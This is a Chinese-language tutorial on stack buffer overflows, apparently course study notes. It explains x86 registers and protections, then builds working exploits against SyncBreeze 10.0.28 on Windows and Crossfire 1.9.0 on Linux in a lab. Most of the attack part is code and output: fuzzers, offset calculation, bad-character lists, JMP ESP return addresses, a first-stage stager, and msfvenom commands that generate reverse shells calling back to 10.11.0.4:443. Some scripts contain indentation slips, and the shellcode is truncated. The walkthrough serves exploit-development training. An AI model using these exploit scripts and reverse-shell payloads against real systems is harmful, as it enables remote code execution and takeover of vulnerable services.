


# BOF

> 经常提到的Assembly（asm），这是一种非常底层的编程语言，与CPU内置的机器代码指令非常接近

## 基础知识

### 内存

​		当执行二进制应用程序时，它将以非常特定的方式在现代计算机使用的内存范围内分配内存。 下图显示了在Windows中如何在应用程序使用的最低内存地址（0x00000000）和最高内存地址（0x7FFFFFFF）之间分配进程内存：

> PEB（Process Environment Block，进程环境块）存放进程信息，每个进程都有自己的PEB信息。
>
> TEB（Thread Environment Block，线程环境块）系统在此TEB中保存频繁使用的线程相关的数据。


​		当线程正在运行时，它从程序映像或各种动态链接库（`Dynamic Link Library` DLL）中执行代码。线程需要用于函数，局部变量和程序控制信息的短期数据区，这称为线程。  stack为了便于独立执行多个线程，正在运行的应用程序中的每个线程都有自己的栈。  CPU以“后进先出”（`LIFO`）结构“监视”栈寄存器。 这实际上意味着在访问栈时，放在栈顶部的最后进栈项目（“`PUSH`”）首先被删除（“`POP`”）。  x86体系结构实现了专用的PUSH和POP汇编指令，以便分别向堆栈中添加或删除数据。

更动态的数据存储区，称为堆（Heap），但是由于我们专注于基于堆栈的缓冲区溢出，因此我们将不在此模块中讨论堆内存。

### 栈帧

​		当线程中的代码调用函数时，函数完成后必须知道要返回到哪个地址。 此“返回地址”`return address `（以及函数的参数和局部变量）会存储在栈中。 这种数据的收集与一个函数调用相关联，并存储在栈寄存器的称为栈帧(`stack fram`)的部分中。 （也就是栈的活动记录）下图是一个栈帧的例子


### 寄存器

> EAX是32位的寄袭器，但其实只是在原有的8086CPU的寄存器AX上增加了一倍的数据位数而已。故而EAX与AX根本不可能独立，二者是整体与部分的关系。
>
> 对EAX直接赋值，若更改了低16位自然会改变了AX值，而AX又可以影响EAX整体。而AH,AL寄存器和AX之间的关系也是如此。


* EAX（累加器）：算术和逻辑指令
* EBX（基本）：内存地址的基本指针
* ECX（计数器）：循环，移位和循环计数器
* EDX（数据）：I / O端口寻址，乘法和除法
* ESI（源索引）：数据的指针寻址 字符串复制操作中的数据和源
* EDI（目标索引）：字符串复制操作中数据和目标的指针寻址

* **ESP-堆栈指针** ：堆栈指针ESP通过存储指向堆栈的指针来跟踪堆栈上最近引用的位置（堆栈顶部）

* **EBP-基址指针** ：由于堆栈在执行线程期间处于不断变化的状态，因此函数很难定位其自己的栈帧，所需的参数，局部变量和返回地址。  EBP（基址指针）通过在调用函数时存储指向栈顶的指针来解决此问题。 通过访问EBP，函数可以在执行时轻松地从其自身的堆栈帧引用信息（通过偏移量）它的作用是在调用函数时保存EBP使函数结束时可以正确返回

* **EIP-指令指针** ：它始终指向下一条要执行的代码指令。 由于EIP从本质上指导程序的流程，因此，在利用任何内存破坏漏洞（例如缓冲区溢出）时，它是攻击者的主要目标。

> ESP指向当前栈顶，EBP指示函数返回，EIP指向下一条命令

### 原理简述

```c
#include <stdio.h>
#include <string.h> 
 
int main(int argc, char *argv[])
{
    char buffer[64];		//定义一个buffer字符数组，容量64个字符 
 
    if (argc < 2)
    {
        printf("Error - You must supply at least one argument\n");
        return 1;
    }
    strcpy(buffer, argv[1]);	//利用strcpy(目标，源)将输入参数拷贝进buffer数字
    return 0;
}
Listing 
```


在这种情况下，main函数首先定义一个名为buffer的字符数组，最多可容纳64个字符。 由于此变量是在函数中定义的，因此C编译器将其视为局部变量，并在堆栈上为其保留空间（64字节）。 具体来说，在程序运行时，该存储空间将在执行过程中保留在主函数栈帧中，如果输入的参数argv超过了64就会发生溢出。


可见超过64个保留空间的字符A最终填充了主函数返回地址。

## Win32 BOF

### 保护机制

* **DEP数据执行保护** ：DEP是一组硬件和软件技术，可对内存执行其他检查，以帮助防止恶意代码在系统上运行。  DEP的主要好处是通过在尝试进行此类尝试时引发异常来帮助防止从数据页执行代码

* **ASLR地址随机化** ：每次引导操作系统时，ASLR都会使加载的应用程序和DLL的基址随机化。 在未实现ASLR的较旧Windows操作系统（如Windows XP）上，每次都将所有DLL加载到相同的内存地址，这使得利用变得更加简单。 与DEP结合使用时，ASLR可以非常有效地缓解剥削
* **CFG控制流保护机制** ：CFG是Microsoft控制流完整性的一种实现，它执行间接代码分支的验证，从而防止覆盖函数指针。

以 SyncBreeze service 为例


### 察看握手包

服务正常运行状态下，输入信息进行交互，查看wireshark三次握手包


```bash
POST /login
HTTP/1.1
Host: 10.11.0.22
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate
Referer: http://10.11.0.22/login
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 27 
 
username=AAAA&password=BBBB HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 730 
 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/h <html> <head> <meta http-equiv='Content-Type' content='text/html; charset=UTF-8'> <meta name='Author' content='Flexense HTTP Server v10.0.28'> <meta name='GENERATOR' content='Flexense HTTP v10.0.28'> <title>Sync Breeze Enterprise @ DESKTOP-4MK82OB - Error</title> <link rel='stylesheet' type='text/css' href='resources/syncbreeze.css' media='all'> </head> <body> <center> <div class='error_message' style='margin-top: 200px;'> <p>The specified user name and/or password is incorrect.</p> </div> <input style='margin-top: 20px;' type='button' value='Close' onClick="history.go(-1);" </center> </body> </html> 
```

HTTP答复显示用户名和密码无效，但这无关紧要，因为我们正在调查的漏洞在进行身份验证之前就存在。 我们可以复制此HTTP通信，并开始使用类似于以下内容的Python概念验证（PoC）脚本来构建我们的模糊器

### 构造Fuzzying

```python
#!/usr/bin/python
import socket 
 
size = 100		#初始化100个size
 
while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes" % size		#友好的显示发送了的size
        inputBuffer = "A" * size		#构造size个A
    	content = "username=" + inputBuffer + "&password=A" 	#将size个A加入到username位置
#增加头部信息，构造包
    	buffer = "POST /login HTTP/1.1\r\n"
    	buffer += "Host: 10.11.0.22\r\n"
    	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Fire fox/52.0\r\n"
    	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 \r\n"
    	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    	buffer += "Referer: http://10.11.0.22/login\r\n"
    	buffer += "Connection: close\r\n"
    	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    	buffer += "Content-Length: "+str(len(content))+"\r\n"
    	buffer += "\r\n"
    	buffer += content 
#发送包 
    	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    	s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        size += 100		#循环加100个长度
        time.sleep(10)		#sleep10用来增加一个手动延时，以便更好的交互
except:
    print "\nCould not connect!"
    sys.exit()
```

但是，我们必须首先确定几个SyncBreeze进程中的哪个正在TCP端口80上进行侦听。尽管Immunity Debugger的“侦听”列旨在显示此信息，但在我们的情况下不可用。 相反，我们将为此使用Microsoft TCPView或者是任务管理器的服务菜单，方法是先从“选项”菜单中取消选中“解析地址”，以获取如图所示的视图。


进程名称是syncbrs.exe，PID为688。在打开Immunity Debugger并导航到“文件”>“附加”时，不会出现此进程。 这是因为SyncBreeze**以SYSTEM特权运行**，并且Immunity Debugger是作为常规用户执行的。 要解决此问题，我们需要通过右键单击并选择“以管理员身份运行”，**以管理员特权**启动Immunity Debugger。

运行后，执行fuzzy脚本，直到溢出


### 复现崩溃

延续之前的fuzzying脚本，假设我们测试出崩溃的字节为800个size先构造一个可以方便的复现脚本

```python
#!/usr/bin/python
import socket 

try:
	print "\nSending evil buffer..." 
	size = 800
	inputBuffer = "A" * size
	content = "username=" + inputBuffer + "&password=A" 
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```

实验验证崩溃无问题

### 掌控EIP

现在，缓冲区中多出的一些字符A已覆盖了EIP，如图所示。


两种常见的方法可以确切地知道缓冲区的哪一部分正在EIP中。 可以尝试二叉树分析。 我们发送的不是400 A，而是400 A和400B。 如果EIP被B覆盖，则我们知道这四个字节位于缓冲区的后半部分。 然后，我们将400 B更改为200 B和200 C，然后再一次。这是给笨方法。

正常套路将使用Metasploit的pattern_create.rb Ruby脚本创造完全不一样的字符，用来一次性确认位置。  pattern_create.rb脚本位于/ usr / share / metasploit-framework / tools / exploit /中，但是可以通过运行msf-pattern_create在Kali中的任何位置运行

```bash
ruby /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800	#传统脚本做法
msf-pattern_create -l 800		#这是个全局的快捷做法
```

修改脚本的前半部

```python
#!/usr/bin/python import socket 
 
try:
    print "\nSending evil buffer..." 
	inputBuffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa...1Ba2Ba3Ba4Ba5Ba" 	#将pattern生成的字符串复制进来
	content = "username=" + inputBuffer + "&password=A"
    ... 
```

重置，执行后，溢出状态如下


将这个EIP值赋值给pattern，计算出精确的溢出offser偏移量

```bash
kali@kali:~$ msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780 
```

再次修改脚本

```bash
#!/usr/bin/python
import socket 
 
try:
	print "\nSending evil buffer..." 
	filler = "A" * 780		#前面的780就是我们需要填充的尺寸
    eip = "B" * 4		#4个B应该刚好填充EIP，使EIP变为42424242
    buffer = "C" * 16		#800就崩溃了，所以800-780-4=16，我们只有16个字符位置用来执行命令。
	inputBuffer = filler + eip + buffer
    content = "username=" + inputBuffer + "&password=A"
    ...
```


### 为我们的shellcode找一个空间

> Shellcode是汇编指令的集合，这些汇编指令在执行时会执行攻击者所需的操作。 这通常是打开反向或绑定外壳，但也可能包含更复杂的操作

我们将使用Metasploit框架生成我们的shellcode有效负载。 回顾我们在最后一次崩溃之后的寄存器，我们注意到ESP寄存器指向缓冲区01307464,后面被C填充了


根据经验，我们知道标准反向外壳有效负载需要大约**350-400字节**的空间。 但是，上面的清单清楚地表明，缓冲区中只有**16个C**，这对于我们的Shellcode而言几乎没有足够的空间。

根据应用程序和漏洞类型的不同，输入内容的长度可能会有限制。 在某些情况下，增加缓冲区的长度可能会导致完全不同的崩溃，因为较大的缓冲区会覆盖目标应用程序使用的堆栈上的其他数据

 解决此问题的最简单方法是尝试将漏洞利用程序中的缓冲区长度    **从800字节增加到1500字节**  ，并查看这是否为我们的shellcode留出足够的空间而不会破坏缓冲区溢出条件或更改崩溃的性质,对于此更新，我们将添加“ D”字符作为Shellcode的占位符

```python
#!/usr/bin/python
import socket 

try:
	print "\nSending evil buffer..." 
    
	filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    buffer = "D" * (1500 - len(filler) - len(eip) - len(offset)) #1500-780-4-4=712
 	inputBuffer = filler + eip + offset + buffer
    
    content = "username=" + inputBuffer + "&password=A"
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```

一旦发送了新的更长的缓冲区，调试器中就会观察到类似的崩溃。 但是，这次，我们发现ESP指向另一个地址值0x030E745C，如图所示。



当前的栈状态



这个小技巧为我们提供了更多的工作空间。 在进一步检查后，我们注意到我们的shellcode现在总共有704个字节（0x030E771C-0x030E745C = 704）的可用空间。

### 确定 Bad Characters 

将buffer部分替换为badchars，因为\x00是固定的badchar，插入的字符为\x01-\xff

```python
#!/usr/bin/python
import socket 

badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 

try:
	print "\nSending evil buffer..." 
    
	filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    #buffer = "D" * (1500 - len(filler) - len(eip) - len(offset)) #1500-780-4-4=712
 	inputBuffer = filler + eip + offset + badchars #+ buffer
    
    content = "username=" + inputBuffer + "&password=A"
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```


执行，右键单击ESP，然后选择“Follow in Dump ”以显示输入缓冲区中的十六进制字符，然后在字符中找到被不能正常显示的字符，去掉它并作为badchar记下来，然后再次执行


以这种方式继续，我们发现0x00、0x0A，0x0D，0x25、0x26、0x2B和0x3D会在尝试使目标缓冲区溢出时弄乱我们的输入

### 找到返回地址

> 我们仍然可以将Shellcode存储在ESP指向的地址上，但是我们需要一种一致的方法来执行该代码。 一种解决方案是利用JMP ESP指令，顾名思义，该指令在执行时会“跳转”到ESP指向的地址。 如果我们找到包含该指令的可靠的静态地址，则可以将EIP重定向到该地址，并且在崩溃时，将执行JMP ESP指令。 这种“间接跳转”将导致执行流程进入我们的shellcode

使用`!mona modules `命令将模块加载，显示SyncBreeze进程存储空间中的所有DLL（或模块）的信息


此输出中的列包括当前内存位置（基地址和最高地址），模块的大小，几个标志，模块版本，模块名称和路径。 从此输出中的标志中，我们可以看到syncbrs.exe可执行文件已禁用SafeSEH319（结构化异常处理程序覆盖，这是一种利用漏洞的内存保护技术），ASLR和NXCompat（DEP保护）。 换句话说，该可执行文件尚未使用任何内存保护方案进行编译，并且始终会可靠地加载到同一地址，因此非常适合我们的目的。 但是，它始终加载在基址0x00400000上，这意味着所有指令的地址（0x004XXXXX）将包含空字符，不适合我们的缓冲区

在输出中进行搜索，我们发现LIBSSP.DLL也符合我们的需求，并且地址范围似乎不包含错误的字符。 这非常适合我们的需求。

***高级提示：如果此应用程序是在DEP支持下编译的，则我们的JMP ESP地址必须位于模块的.text代码段中，因为这是唯一同时具有Read（R）和Executable（E）权限的段。 但是，由于未启用DEP，因此我们可以自由使用此模块中任何地址的指令***

 现在，我们需要在此模块中查找自然发生的JMP ESP指令的地址


`!mona find -s "\xff\xe4" -m "libspp.dll"`


包含JMP ESP指令（0x10090c83<=>\x83\x0c\x09\x10）的地址，幸运的是，该地址不包含任何我们的错误字符

要在反汇编窗口中查看0x10090c83的内容（暂停执行），我们将单击“转到反汇编器中的地址”按钮,并输入地址。 从这里我们可以看到它确实转换为JMP ESP指令


```python
...
filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset)) 
 
inputBuffer = filler + eip + offset + buffer
...
```

### 验证返回地址

我们将在地址0x10090c83处放置一个断点，以跟踪JMP ESP指令的执行，然后再次运行漏洞利用程序


我们可以看到EIP指令指针已经指向JMP ESP，如果再次步进的话，会看到一堆D

### 生成最终脚本

首先生成shellconde,注意去除badcharacters

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x 86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
No platform was selected, choosing Msf::Module::Platform::Windows from the payload No Arch selected, selecting Arch: x86 from the payload
Found 22 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 351 (iteration=0)
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a" "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59" "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48" "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f" "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6" 
.....
```

Metasploit shellcode的默认退出方法是ExitProcess API。 当反向外壳终止时，此退出方法将关闭整个Web服务过程，从而有效终止SyncBreeze服务并使其崩溃，如果我们要利用的程序是线程应用程序，并且在这种情况下，我们可以尝试通过使用ExitThread API来避免完全崩溃服务，该方法只会终止程序的受影响线程。 这将使我们的利用工作得以正常进行，而不会中断SyncBreeze服务器的正常运行，并使我们能够反复利用该服务器并退出Shell而无需关闭服务。可以使用`EXITFUNC=thread`参数来生成一个多线程程序对应的shellcode

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC= thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
.....
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a" "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59" "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48" "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f" "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6" 
.....
```

我们还有另一个要克服的障碍,我们使用msfvenom生成了编码的Shellcode。 由于编码，shellcode不能直接执行，因此shellcode由解码器作为前缀。它会遍历编码的shellcode字节，并将其解码回其原始可执行形式。解码器需要在内存中收集其地址，然后从那里开始查找几个字节，以找到需要解码的已编码Shellcode。该代码执行一系列汇编指令，通常称为GetPC(Get Program Counter 获得程序计数器),在x86下可以理解为GetEip, 这本质上是一个简短的例程，它将EIP寄存器（有时称为程序计数器或PC）的值移动到另一个寄存器中。

与其他GetPC例程一样，shikata_ga_nai会在堆栈顶部写入一些数据。 最终，这将至少破坏几个字节，使其接近ESP寄存器所指向的地址

简而言之，GetPC例程的执行最终会更改解码器本身的几个字节（并可能更改了编码的Shellcode），这最终使解码过程失败并使目标进程崩溃

解决方案是在shellcode之前加入一些无操作（或NOP）指令这些指令不执行任何操作，只是将执行传递给下一条指令。 通过这种方式使用的这些指令（也称为NOP滑板或NOP滑片）将使CPU在NOP中“滑”直至到达有效载荷。

```python
#!/usr/bin/python
import socket 

shellcode = ( "\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a" "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59" "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48" "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f" "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6" ) 

try:
	print "\nSending evil buffer..." 
    
	filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10 
    
 	inputBuffer = filler + eip + offset + nops + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```

## Linux BOF

> 最近的Linux内核和编译器已经实现了各种内存保护技术，例如数据执行保护（DEP），地址空间布局随机化（ASLR），以及stack Canaries。由于绕过这些保护机制已超出了本模块的范围， 本例Crossfire测试版本已重新编译，没有stack Canaries，ASLR和DEP

### 复现崩溃

启动目标程序

然后执行edb

```bash
root@debian:/usr/games/crossfire/bin# ./crossfire
...
Welcome to CrossFire,
v1.9.0 Copyright (C) 1994 Mark Wedel. Copyright (C) 1992 Frank Tore Johansen

root@debian:~# edb
Starting edb version: 0.9.22
....
```


然后运行，执行poc

```python
#!/usr/bin/python
import socket
host = "10.11.0.128"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```


### 控制EIP

生成字符串

```bash
kali@kali:~$ msf-pattern_create -l 4379Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6A..
```

替换脚本输入

```python
#!/usr/bin/python
import socket
host = "10.11.0.128"
#crash = "\x41" * 4379
patter = "4379Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6A.."
buffer = "\x11(setup sound " + patter + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

得到崩溃的EIP值，返回运算


```bash
kali@kali:~$ msf-pattern_offset-q 46367046
[*] Exact match at offset 4368
```

得到偏移量4368

修改脚本

```python
...
host = "10.11.0.128"
crash = "\x41" * 4368 + "B" * 4 + "C" * 7
buffer = "\x11(setup sound " + patter + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
...
```

### 为我们的Shellcode定位空间

我们注意到，ESP寄存器指向缓冲区的末尾，仅保留七个字节的Shellcode空间。此外，我们无法增加溢出缓冲区的大小来尝试获得更多空间。即使增加一个字节也会产生不同的崩溃，无法正确覆盖EIP。

仔细研究崩溃时寄存器的状态（图227），可以发现更多的选择。EAX寄存器似乎指向缓冲区的开头，包括“设置声音”字符串。

继续我们的分析，看起来ESP寄存器在崩溃时指向唯一缓冲区的末尾，但这仅给我们提供了一些字节的Shellcode空间。我们可以尝试使用创建第一阶段shellcode所需的有限空间。该第一阶段的shellcode而非EA寄存器之类的实际有效载荷，将用于对齐EAX寄存器，以便使其在“设置声音”字符串之后指向我们的缓冲区，然后跳转到该位置，从而使我们能够跳过条件跳转。为了实现这一点，我们的第一阶段shellcode将需要将EAX的值增加12（\ x0C）个字节，因为字符串“ setup sound”中有12个字符。可以使用ADDassembly指令完成此操作，然后使用JMP指令继续跳转到EAX指向的内存。

```bash
kali@kali:~$ msf-nasm_shell
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0       jmp eax
```

对我们来说幸运的是，这两套指令（\ x83 \ xc0 \ x0c \ xff \ xe0）仅占用5个字节的内存。我们可以通过包括第一阶段的shellcode并用NOP（\ x90）重新填充原始缓冲区来更新概念验证，以保持正确的长度。

```python
...
host = "10.11.0.128"
#crash = "\x41" * 4368 + "B" * 4 + "C" * 7

padding = "\x41" * 4368
eip = "\x42\x42\x42\x42"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setupsound " + padding + eip + first_stage+ "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
...
```

运行更新的概念验证代码后，我们可以验证EIP寄存器是否被四个B（\ x42）覆盖，并且我们的第一阶段shellcode位于ESP寄存器所指向的内存地址上


然后与win bof一样，找到badcharacters

### 找到返回地址

最后，我们需要找到一条有效的汇编指令，以将代码执行重定向到ESP寄存器指向的存储位置。EDB调试器带有一组插件，其中一个名为OpcodeSearcher。使用此插件，我们可以轻松地在映射交火应用程序的代码段的内存区域中搜索JMP ESP指令或等效指令


我们选择继续使用调试器找到的第一条JMP ESP指令（0x08134596，图232）。将覆盖偏移量，返回地址和第一阶段shellcode放在一起，

```python
...
host = "10.11.0.128"
#crash = "\x41" * 4368 + "B" * 4 + "C" * 7

padding = "\x41" * 4368
#eip = "\x42\x42\x42\x42"
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setupsound " + padding + eip + first_stage+ "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
...
```

使用EDB Breakpoint Manager插件在JMP ESP指令地址上设置了一个断点

这将帮助我们确认EIP是否已被正确覆盖


设置断点后，运行，如果一切都按计划进行，则调试器应在JMP ESP指令处停止。


断点已被击中，我们单步进入JMP ESP指令并进入我们的第一阶段shellcode。


执行完第一条指令后，我们发现EAX寄存器现在指向“设置声音”字符串之后的受控缓冲区的开头。EAX指向A缓冲区的开头，JMP EAX指令将我们带入了一个漂亮的，干净的A缓冲区：


### shell

```bash
kali@kali:~$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x0
0\x20" -f py -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 470 bytes
shellcode = ""
shellcode += "\xbe\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x04\x03\x47\x90\x41"
...
```

```python
#!/usr/bin/python
import socket
host = "10.11.0.128"
nop_sled = "\x90" * 8 # NOP sled
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f p
y
shellcode = ""
shellcode += "\xbe\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x04\x03\x47\x90\x41"
...

padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))
eip = "\x96\x45\x13\x08" # 0x08134596
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\
x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

关闭调试器，重新启动程序。运行脚本。得到shell

